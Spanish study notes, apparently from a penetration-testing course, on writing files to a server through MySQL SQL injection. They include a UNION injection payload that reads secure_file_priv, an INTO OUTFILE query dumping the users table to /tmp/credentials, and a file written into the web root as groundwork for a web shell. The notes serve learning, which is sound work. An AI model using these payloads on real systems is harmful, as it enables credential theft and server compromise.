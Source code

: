 
# ESCRIBIR ARCHIVOS

Cuando escribimos archivos del servidor back-end, nos restricciona el modelo DBMS, cuando utilziamos una web shell, o cuando hacemos ejecución de codigo.

## ESCRIBIR ARCHIVOS PRIVILEGIOADO

Para poder escribir ficheros en el back-end requerimos tres cosas:

1. El usuario con privilegios del fichero
2. MySQL variable "secure_file_prive" no este activa
3. Acceso de escritura de la localizacion en al que queremos escribir.

### SECURE_file_prive

Se usa para determinar cuando lees/escriber. Los valores del sistema, nosotros podemos eler archivos o ficheros, no podemos leer directorios. 

```
SHOW VARIABLES LIKE 'secure_file_priv';
```

Sin embargo, si queremos usar "UNION" injección tenemos que tenr el valor usando "SELECT" esto no sera un problema porque sabemos que todo esta guardado en "INFORMATION_SCHEMA" 

```
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

### SELECCIONAR DENTRO DE UN ARCHIVO

Ahora que confirmamos y usamos SELECNT into a file, nosotros lo añadiremos apra leer un archivo específico.

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Y si no vamos a ese archivo lo podremos leer
```
cat /tmp/credentials
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
cat /tmp/test.txt 
```

### ESCRIBIR ARCHIVOS CON SQL INJECTION

Ahora que sabemos escribir podemos ahcer cositas

```
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```
